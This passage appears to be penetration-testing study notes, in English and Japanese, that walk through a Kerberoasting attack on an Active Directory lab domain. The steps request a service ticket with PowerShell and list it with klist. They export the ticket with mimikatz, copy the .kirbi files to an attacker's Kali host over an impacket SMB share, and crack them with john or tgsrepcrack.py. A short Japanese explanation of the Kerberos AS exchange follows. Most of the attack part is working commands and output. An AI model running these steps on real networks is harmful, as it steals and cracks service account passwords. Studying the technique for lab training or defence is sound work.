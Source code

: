 PS> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'MSSQLSvc/xor-app23.xor.com:1433'
(PS> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com')
```

step.2: After the ticket was issued and loaded to memory, check it with `klist` command:

```
PS C:\> klist
#2>     Client: xor-app59$ @ XOR.COM
        Server: MSSQLSvc/xor-app23.xor.com:1433 @ XOR.COM
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 10/29/2021 7:23:46 (local)
        End Time:   10/29/2021 14:39:00 (local)
        Renew Time: 11/5/2021 4:39:00 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called: xor-dc01.xor.com
```        

step.3: Download the ticket

```mimikatz # kerberos::list /export```

(After download, you can find .kirbi files in the current directory)

step.4: send to Kali (You can also use ftp bin put)

On kali:

```$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .```

On Windows:

```copy 4-40a10000-xor-app59\$@HTTP\~ExchangeService.xor.com-XOR.COM.kirbi \\<kali's IPaddress>\kali\```

step.5: Cracking Tickets (on Kali)

Convert for using john:

```$ kirbi2john.py -o forjohn.txt 2-40a10000-xor-app59\$@MSSQLSvc\~xor-app23.xor.com\~1433-XOR.COM.kirbi```

Cracking:

```$ john --format=krb5tgs forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt```

[*] When you connect with the password you got from the above method, be careful for "user name"

Not using john, but using kerberoast tgsrecrack.py:

```$ python /kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000- Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi```

# Kerberos認証
## AS_REQ
- タイムスタンプ
- ユーザ名
（ユーザのハッシュで暗号化）

## AS_REP
- セッションキー①（ユーザのパスワードハッシュで暗号化）
- TGT（KDCのみが知っている秘密鍵（= **krbtgtというドメインユーザアカウントのパスワードハッシュ**）で暗号化）

（TGTにはグループメンバーシップ、ドメイン、タイム スタンプ、クライアントの IP アドレス、セッションキー①等が含まれる）
```